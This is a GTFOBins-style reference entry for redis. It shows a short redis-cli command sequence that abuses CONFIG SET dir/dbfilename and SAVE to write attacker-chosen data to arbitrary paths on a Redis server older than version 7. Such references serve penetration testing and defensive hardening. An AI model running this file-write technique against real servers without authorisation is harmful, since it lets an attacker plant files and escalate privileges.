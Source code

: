 # GTFOBin: redis

This works with versions lower than 7.

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

Write files on the server running Redis at the specified location. Written data will appear amongst the database dump, thus it might not be suitable for all kind of purposes.

```
IP=127.0.0.1
redis-cli -h $IP
config set dir dir_to_write_to
config set dbfilename file_to_write
set x "DATA"
save
```